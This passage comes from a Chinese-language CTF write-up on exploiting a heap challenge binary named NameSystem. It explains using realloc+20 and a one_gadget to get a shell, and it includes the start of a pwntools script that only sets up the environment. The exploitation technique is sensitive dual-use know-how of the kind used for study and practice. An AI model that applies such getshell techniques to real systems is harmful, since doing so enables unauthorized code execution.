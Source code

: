 realloc内部
![](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/HuXiang/realloc2.png)

从realloc+20开始，构造"a"*0xb+p64(one)+p64(realloc+20)
发现 $rsp+0x70 为0 , 满足0xf1147的条件成功getshell

关于栈空间内存值和realloc地址之间的关系还是高度依赖环境。

从这道题目来看，再次申请free_got 直接system("/bin/sh") 似乎是更好的选择 。。。
### 利用脚本

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
import sys
import os
debug = 1
exe = "./NameSystem"

r = lambda x:io.recv(x)
ru = lambda x:io.recvuntil(x)
rud = lambda x:io.recvuntil(x,drop=True)
rul = lambda:io.recvline()
sd = lambda x:io.send(x)
sl = lambda x:io.sendline(x)
sea = lambda x,y:io.sendafter(x,y)
sela = lambda x,y:io.sendlineafter(x,y)

context.terminal = ["tmux","splitw","-h"]
elf = ELF(exe)
context.arch = elf.arch

if debug:
    context.log_level = "debug"

arena64 = 0x3c4b20
arena32 = 0x1b2780

def pre(libc_version):
    glibc_dir = '/glibc/{arch}/{libc}/lib/libc-{libc}.so'.format(arch=elf.arch,libc=str(libc_version))
    ld_dir = '/glibc/{arch}/{libc}/lib/ld-{libc}.so'.format(arch=elf.arch,libc=str(libc_version))
    if libc_version==0:
        io = process(exe)
        return io
    else:
        io = process(exe,env={"LD_PRELOAD":glibc_dir})
        cmd = "patchelf --set-interpreter {} {}".format(ld_dir,os.getcwd()+"/"+exe)
        os.system(cmd)
        return io
 
```